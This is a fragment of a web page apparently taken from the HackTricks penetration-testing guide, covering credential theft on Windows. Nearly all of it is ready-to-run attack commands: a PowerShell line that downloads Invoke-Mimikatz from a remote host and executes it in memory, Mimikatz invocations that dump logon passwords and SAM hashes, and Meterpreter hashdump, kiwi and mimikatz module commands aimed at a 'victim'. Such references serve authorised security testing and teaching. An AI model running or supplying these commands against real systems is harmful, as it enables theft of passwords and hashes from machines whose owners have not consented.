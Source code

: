##

Invoke-Mimikatz[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1641'%3e%3cg data-evernote-id='1642' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1643' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1644' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#invoke-mimikatz)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1648'%3e%3cg data-evernote-id='1649' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1650' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1651' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

10IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')

11Invoke-Mimikatz -DumpCreds #Dump creds from memory

12Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

​[**Learn about some possible credentials protections here.**](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections)** This protections could prevent Mimikatz from extracting some credentials.**

#

Credentials with Meterpreter[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1694'%3e%3cg data-evernote-id='1695' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1696' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1697' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#credentials-with-meterpreter)

Use the [**Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials)** that **I have created to **search for passwords and hashes** inside the victim.

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1721'%3e%3cg data-evernote-id='1722' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1723' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1724' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

13#Credentials from SAM
14post/windows/gather/smart_hashdump
15hashdump
16​
17#Using kiwi module
18load kiwi
19creds_all

20kiwi_cmd "privilege::debug"  "token::elevate"  "sekurlsa::logonpasswords"  "lsadump::sam"

21​
22#Using Mimikatz module
23load mimikatz
24mimikatz_command -f "sekurlsa::logonpasswords"
25mimikatz_command -f "lsadump::sam"
